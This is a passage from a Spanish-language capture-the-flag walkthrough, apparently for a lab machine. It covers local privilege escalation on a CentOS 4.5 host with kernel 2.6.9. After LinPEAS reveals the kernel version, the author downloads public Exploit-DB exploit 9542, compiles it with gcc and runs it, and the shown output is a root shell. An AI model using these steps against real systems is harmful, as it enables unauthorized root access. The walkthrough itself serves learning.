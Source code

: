 Una vez con Linpeas en la maquina objetivo lo ejecutamos y vemos lo siguiente:

![Untitled](Untitled%209.png)

La maquina es un CentOS 4.5 con versión de Linux 2.6.9.

Buscamos en Google si existe algún exploit de escalada de privilegios con estas características y encontramos el siguiente exploit:

[https://www.exploit-db.com/exploits/9542](https://www.exploit-db.com/exploits/9542)

Lo descargamos en nuestra maquina y lo transferimos igual que hemos hecho anteriormente.

Lo compilamos

```bash
gcc 9542.c -o exploit
```

Damos permisos de ejecución

```bash
chmod +x exploit
```

y lo ejecutamos obteniendo una Shell como root

```bash
bash-3.00$ ./exploit
sh: no job control in this shell
sh-3.00# whoami
root
```

y ya tendríamos la maquina terminada.

Un saludo y Feliz Hacking :)

